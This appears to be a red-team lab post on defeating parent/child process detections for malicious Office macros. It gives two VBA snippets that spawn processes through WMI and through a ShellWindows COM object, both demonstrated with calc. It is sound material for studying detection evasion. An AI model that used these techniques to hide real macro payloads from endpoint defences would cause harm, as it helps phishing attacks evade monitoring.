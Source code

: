 ```yaml
---
layout: post
title: "bypassing malicious macro detections by defeating child parent process relationships"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /bypassing-malicious-macro-detections-by-defeating-child-parent-process-relationships/
---
```


---
layout: post
title: "bypassing malicious macro detections by defeating child parent process relationships"
date: 2024-06-18
categories: phishing-with-ms-office
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /bypassing-malicious-macro-detections-by-defeating-child-parent-process-relationships/
---

# Bypassing Parent Child / Ancestry Detections

Defenders often engineer detections based on parent/child process relationships - i.e Excel spawns powershell - suspicious.

This lab is mostly based on the techniques discussed on [https://www.countercept.com/blog/dechaining-macros-and-evading-edr/](https://www.countercept.com/blog/dechaining-macros-and-evading-edr/)

Below are some techniques showing how those type of detections could be bypassed.&#x20;

## Spawning via WmiPrvse.exe using wmi

{% code title="macro.vba" %}
```javascript
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("calc", Null, objConfig, intProcessID)
```
{% endcode %}

![](<../../../.gitbook/assets/Screenshot from 2019-04-10 22-11-41.png>)

## Spawning via ShellCOM

{% code title="macro.vba" %}
```csharp
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```
{% endcode %}
